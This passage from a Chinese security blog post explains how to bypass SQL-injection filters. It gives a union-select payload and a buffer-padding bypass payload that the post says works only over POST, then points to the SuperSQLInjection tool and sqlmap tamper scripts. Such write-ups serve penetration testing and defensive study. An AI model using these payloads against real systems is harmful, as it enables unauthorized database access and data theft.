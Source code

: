 ![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/SQL_Bypass7.png)

接下来看看 union select 怎么进行绕过。

```
'union select database(),user()'
```
经过多次测试，发现可以通过缓冲区溢出进行绕过，但也只有在 POST 方法下才有效。

```
' and (select 1)=(select 0xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)union select database(),user()'
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/SQL_Bypass8.png)

# 0x04 工具
提到 SQL 注入的工具，个人觉着就不得不提 shack2 的超级 SQL 注入工具，针对于上面缓冲区绕过的情况，使用这个工具可以很方便的进行 SQL 注入。

工具下载地址：[https://github.com/shack2/SuperSQLInjectionV1/releases](https://github.com/shack2/SuperSQLInjectionV1/releases)

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/SQL_Bypass9.png)

把 Burp 中的数据包复制到工具中，在注入标记、编码标记后，就可以获取数据了，对于如何标记注入点不理解的可以看看这个工具的教学视频以及文档，会容易理解些。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/SQL_Bypass10.png)

至于其他更为复杂的绕过，比如上面安全狗的绕过，利用这个工具的注入绕过模块也是可以的，当然使用 sqlmap 的 tamper 脚本也是 OK 的，暂时本文就先记录到这里。

>更多信息欢迎关注我的微信公众号：TeamsSix

>参考文章：
>[https://zhuanlan.zhihu.com/p/41332480](https://zhuanlan.zhihu.com/p/41332480)
>[https://www.anquanke.com/post/id/102852](https://www.anquanke.com/post/id/102852)
>[https://www.secpulse.com/archives/68991.html](https://www.secpulse.com/archives/68991.html)
>[https://www.cnblogs.com/xiaozi/p/9132737.html](https://www.cnblogs.com/xiaozi/p/9132737.html)
>[https://blog.csdn.net/weixin_30886233/article/details/95871508](https://blog.csdn.net/weixin_30886233/article/details/95871508)
